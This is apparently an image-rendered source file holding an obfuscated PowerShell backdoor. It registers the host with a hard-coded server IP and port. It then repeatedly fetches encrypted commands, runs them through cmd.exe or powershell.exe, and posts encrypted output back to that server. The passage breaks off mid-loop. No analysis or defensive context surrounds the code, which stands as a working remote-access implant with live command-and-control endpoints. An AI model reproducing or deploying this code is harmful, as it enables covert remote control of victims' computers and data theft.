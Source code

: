 ```
}
function ShELL(${DfJz1co}, ${yo8xm5}){
    ${CwzVYVJ}                        = &'New-Object' 'System.Diagnostics.ProcessStartInfo'
    ${CwZVyVj}.FIlename               = ${DFjZ1co}
    ${CWzvYvj}.reDIRecTsTAnDaRdERrOR  = ${TRue}
    ${cwZVYVJ}.ReDIREcTsTANdarDoUTPUT = ${tRUe}
    ${CWZvyVJ}.USEshELleXeCUTe        = ${FALsE}
    ${cwzvyVJ}.aRgUmENtS              = ${yO8xm5}
    ${p}                            = .'New-Object' 'System.Diagnostics.Process'
    ${P}.sTArTiNFO                  = ${CWzvYVj}
    ${p}.Start.INvoKE() | &'Out-Null'
    ${P}.WaitForExit.invoKE()
    ${BHnxNUrW99} = ${p}.staNdardOuTpUT.ReadToEnd.INVOkE()
    ${NmWkjOAB99} = ${p}.StANdArdeRrOR.ReadToEnd.Invoke()
    ${kCNjcQdL} = ('VALID '+"$BhnXnUrW99`n$nmWKJOAb99")
    ${KcnJcQDl}
}
${FZvyCr}   = '128.199.207.220'
${twFTrI} = '7331'
${VxzTmff}  = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
${n}    = 3
${Cwj2TWh} = ""
${yCRUTw} =   ${92Y7}::'GetHostName'.inVoKE()
${FNFFGXDzj}  = "p"
${DFctDFM}  = ('http' + ':' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kVQBXbuR}  = @{
    'name' = "$YCRUTw" 
    'type' = "$fNFFGXDZJ"
    }
${CWj2TWh}  = (&'Invoke-WebRequest' -UseBasicParsing -Uri ${dFctDFM} -Body ${kVqBxbUr} -Method 'POST').coNTENT
${TvYMeYrR99} = ('http' + ':' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${iJfySE2}   = ('http' + ':' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){
    ${MA04XMgY}  = (.'Invoke-WebRequest' -UseBasicParsing -Uri ${IJFYSE2} -Method 'GET').cONTeNt
    if (-Not  ${UJXRc}::'IsNullOrEmpty'.INvOKe(${MA04XmGy})){
        ${mA04XMgY} = .Decrypt ${VXZTmff} ${Ma04XMgY}
        ${mA04XMgY} = ${ma04XMgy}.split.INvokE()
        ${FLAG} = ${MA04xmgY}[0]
        if (${FlAg} -eq 'VALID'){
            ${WB1SWYoje} = ${MA04XMgY}[1]
            ${yO8XM5S}    = ${Ma04XMgY}[2..${MA04xmgY}.LeNgTH]
            if (${wb1sWyoJe} -eq 'shell'){
                ${F}    = 'cmd.exe'
                ${yO8XM5}  = "/c "
                foreach (${a} in ${yo8xM5s}){ ${Yo8xm5} += ${a} + " " }
                ${KcNJCQdL}  = .shell ${f} ${yo8xM5}
                ${kCnjCQDL}  = .Encrypt ${VxztMFF} ${kcNjcqdl}
                ${kvqbXBUr} = @{'result' = "$KcnJCQDl"}
                &'Invoke-WebRequest' -UseBasicParsing -Uri ${tVyMEyRR99} -Body ${kVQbXbur} -Method 'POST'
            }
            elseif (${Wb1SwYOJe} -eq 'powershell'){
                ${f}    = 'powershell.exe'
                ${yO8Xm5}  = "/c "
                foreach (${a} in ${Yo8xM5s}){ ${YO8xm5} += ${a} + " " }
                ${kcNjcqdL}  = &'shell' ${F} ${yO8XM5}
                ${kcnjCQDL}  = .Encrypt ${vXZTmfF} ${KCNjcqDl}
                ${KVqbxBUr} = @{'result' = "$KcnJCQDl"}
                &'Invoke-WebRequest' -UseBasicParsing -Uri ${tvyMEYRR99} -Body ${kVqBXbUr} -Method 'POST'
            }
            elseif (${wb1swYOJe} -eq 'sleep'){
```